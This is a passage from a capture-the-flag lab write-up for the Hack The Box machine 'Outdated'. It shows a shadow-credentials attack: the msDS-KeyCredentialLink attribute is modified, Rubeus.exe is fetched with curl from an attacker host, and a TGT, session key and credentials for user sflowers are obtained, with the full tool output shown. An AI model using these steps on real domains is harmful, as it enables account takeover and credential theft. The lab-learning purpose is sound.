 ```bash
[*] Updating the msDS-KeyCredentialLink attribute of the target object
[+] Updated the msDS-KeyCredentialLink attribute of the target object
[*] You can now run Rubeus with the following syntax:

Rubeus.exe asktgt /user:sflowers /certificate:MIIJsA...qoCAgfQ /password:"qUOOiC6IHD1YbErH" /domain:outdated.htb /dc:DC.outdated.htb /getcredentials /show
```

The shadow credential has been added to the account and we are returned a long `Rubeus.exe` string, so lets upload `Rubeus.exe` and execute the command:
```bash
C:\Windows\Tasks>curl http://10.10.14.2:8888/Rubeus.exe -o C:\Windows\Tasks\Rubeus.exe
C:\Windows\Tasks> Rubeus.exe asktgt /user:sflowers /certificate:MIIJsA...qoCAgfQ /password:"qUOOiC6IHD1YbErH" /domain:outdated.htb /dc:DC.outdated.htb /getcredentials /show

[*] Action: Ask TGT

[*] Using PKINIT with etype rc4_hmac and subject: CN=sflowers 
[*] Building AS-REQ (w/ PKINIT preauth) for: 'outdated.htb\sflowers'
[+] TGT request successful!
[*] base64(ticket.kirbi):

      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

  ServiceName              :  krbtgt/outdated.htb
  ServiceRealm             :  OUTDATED.HTB
  UserName                 :  sflowers
  UserRealm                :  OUTDATED.HTB
  StartTime                :  8/19/2022 12:32:27 PM
  EndTime                  :  8/19/2022 10:32:27 PM
  RenewTill                :  8/26/2022 12:32:27 PM
  Flags                    :  name_canonicalize, pre_authent, initial, renewable, forwardable
  KeyType                  :  rc4_hmac
  Base64(key)              :  6eMJxFK5gBo2hl7+F6oiWQ==
  ASREP (key)              :  C930BD99144FF387606300042A2D9F52

[*] Getting credentials using U2U

  CredentialInfo         :
    Version              : 0
```